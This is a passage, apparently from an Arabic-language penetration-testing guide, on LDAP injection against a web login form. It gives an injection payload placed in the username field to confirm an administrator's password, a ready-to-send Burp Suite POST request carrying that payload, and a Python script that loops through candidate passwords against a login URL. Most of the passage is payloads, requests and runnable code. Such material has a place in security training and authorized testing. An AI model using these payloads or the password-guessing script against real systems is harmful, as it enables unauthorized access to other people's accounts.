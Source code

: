     username=administrator&password=MYKE
    ```
  - تحقق من الاستجابة (مثل رمز 302 أو نص "Welcome").

#### ب. اختبار كلمة المرور باستخدام استعلام LDAP
- **الاستعلام**: `(&(uid=administrator)(userPassword=MYKE))`
- **الإدخال**:
  - اسم المستخدم: `administrator*)(&(uid=administrator)(userPassword=MYKE))`
  - كلمة المرور: `anything`
- **الاستعلام الناتج**: `(&(uid=administrator*)(&(uid=administrator)(userPassword=MYKE))(userPassword=anything))`
- **كيف يعمل**:
  - يتحقق مما إذا كانت القيمة `MYKE` هي كلمة المرور الصحيحة لـ `administrator`.
  - استجابة إيجابية (مثل صفحة مختلفة أو رمز 200) تؤكد صحة القيمة.
- **متى يُستخدم؟**:
  - للتحقق من كلمة المرور داخل إطار LDAP Injection إذا كان نموذج تسجيل الدخول لا يعمل مباشرة.
- **الأوامر/الإجراءات**:
  - في Burp Suite Repeater، أرسل:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded

    username=administrator*)(&(uid=administrator)(userPassword=MYKE))&password=anything
    ```
  - تحقق من الاستجابة لتأكيد القيمة.

#### ج. أتمتة اختبار كلمة المرور
- **سكربت Python لاختبار كلمة المرور**:
  ```python
  #!/usr/bin/python3
  import requests

  url = "http://TARGET_URL.com/login"  # استبدل بـ URL الموقع
  passwords = ["MYKE", "admin123", "password"]  # قائمة كلمات المرور المستخلصة أو المحتملة
  username = "administrator"

  for password in passwords:
      data = {"username": username, "password": password}
      r = requests.post(url, data=data)
      if "Welcome" in r.text or r.status_code == 302:  # استبدل Welcome بشرط النجاح
          print(f"[+] Valid password found: {password}")
          break
      else:
          print(f"[-] Password {password} failed")
  ```
- **الإعداد**:
  - استبدل `http://TARGET_URL.com/login` بعنوان URL لنموذج تسجيل الدخول.
  - استبدل `"Welcome"` بشرط النجاح (مثل نص في الاستجابة أو `r.status_code == 302`).
  - عدّل `passwords` لتشمل كلمات المرور المستخلصة (مثل `["MYKE"]`).
- **التشغيل**:
  - `python3 test_password.py`
- **المخرجات**:
  - يطبع كلمة المرور الصحيحة (مثل `[+] Valid password found: MYKE`).
- **الأوامر/الإجراءات**:
  - احفظ السكربت كـ `test_password.py` وشغّله.
  - راقب الطلبات في Burp Suite للتأكد من إرسالها بشكل صحيح.

